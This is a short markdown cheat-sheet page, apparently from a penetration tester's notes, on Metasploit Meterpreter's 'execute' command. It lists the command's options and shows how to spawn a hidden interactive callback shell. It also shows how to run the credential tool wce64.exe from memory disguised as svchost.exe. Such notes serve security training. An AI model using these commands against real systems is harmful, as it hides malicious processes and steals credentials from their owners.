 # 05 - Execute Process

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## 5.1 - Help Menu

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```

## 5.2 - Usage

* Spawn Callback Shell

```
meterpreter > execute -Hicf shell.exe

meterpreter > execute -Hicf ./shell
```

* Spawn a executable program as a dummy process with `-d` flag.

`meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"`

---
## References

* [Metasploit for Pentester Migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/)
